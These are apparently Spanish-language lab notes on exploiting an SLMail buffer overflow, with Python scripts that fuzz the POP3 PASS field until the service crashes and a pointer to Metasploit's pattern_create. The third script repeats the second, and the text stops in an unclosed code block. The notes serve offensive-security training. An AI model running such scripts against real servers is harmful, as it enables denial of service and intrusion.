 #BufferOverflow #SLMail

###### Enumeración
En las fases iniciales lo primero que debemos de hacer es averiguar cuales son los limites de los programas objetivos, esto se realiza probando a introducir más caracteres de los debidos en los diferentes campos de entrada del programa, como una cadena de texto o un archivo hasta que se detecte que la aplicación se corrompe o falla.

El registro *EIP (Extended Instruction Pointer)* es un registro de la CPU que apunta a la dirección en la memoria donde se encuentra la siguiente instrucción que se va a ejecutar. Un buffer overflow exitoso es cuando el valor del registro *EIP* se sobre escribe con una dirección controlada por el atacante.

El objetivo de averiguar el *offset* es determinar el número exacto de caracteres que se deben introducir en el campo de entrada para sobrescribir el valor del registro *EIP* y apuntar a la dirección de memoria controlada por el atacante. Una vez que se conoce el *offset*, el atacante puede diseñar un exploit personalizado para el programa objetivo que permita tomar control del registro *EIP* y ejecutar código malicioso.

Para esto nos crearemos nuestro script de Python, vamos a llamarle `exploit.py`
	En este caso al estar explotando SLMail usaremos lo siguiente:

01.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	
	
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		print(banner)
		
		
	if __name__ == '__main__':
	
		exploit()
```
En este punto tenemos que verificar que hemos recibido el banner, cuando ejecutamos el exploit.

02.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	if len(sys.argv) != 2:
		print("\n[!] Usage: exploit.py <length>")
		exit(1)
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	total_length = int(sys.argv[1])
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + b"A"*total_length + b'\r\n') #En el campo PASS introducira A multiplicado por el valor que asignemos en total_length
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
```
Lo ejecutaríamos probando con diferentes longitudes de bytes `python3 exploit.py 5000`, siempre se meten longitudes de menos a más.
Cuando demos con el valor que lo corrompa el servicio sabremos que hemos llenado el EIP.
En este caso sabemos que con 5000 ya se llena, entonces utilizaremos la siguiente utilidad de [[METASPLOIT]] `/usr/share/metasploit/tools/exploit/pattern_create.rb -l 5000`
Esto nos permite concretar cual es el *pattern offset*  es decir conocer cuantas `A` hay que introducir antes de la cadena del *EIP*.

03.-
```python
	#!/usr/bin/python3
	
	import socket
	import sys
	
	if len(sys.argv) != 2:
		print("\n[!] Usage: exploit.py <length>")
		exit(1)
	
	#Variables globales
	ip_adress = <IP_Victima>
	port = <Puerto>
	total_length = int(sys.argv[1])
	
	#Exploit
	def exploit():
		
		#Crar socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		
		#Conectar con el servidor
		s.connect((ip_adress, port))
		
		#Recibir la respuest(banner)
		banner = s.recv(1024)
		
		s.send(b"USER test" + b'\r\n') #Enviamos un usuario en el campo USER aleatorio en este caso TEST
		response = s.recv(1024)
		s.send(b"PASS " + b"A"*total_length + b'\r\n') #En el campo PASS introducira A multiplicado por el valor que asignemos en total_length
		s.close()
		
	if __name__ == '__main__':
		
		exploit()
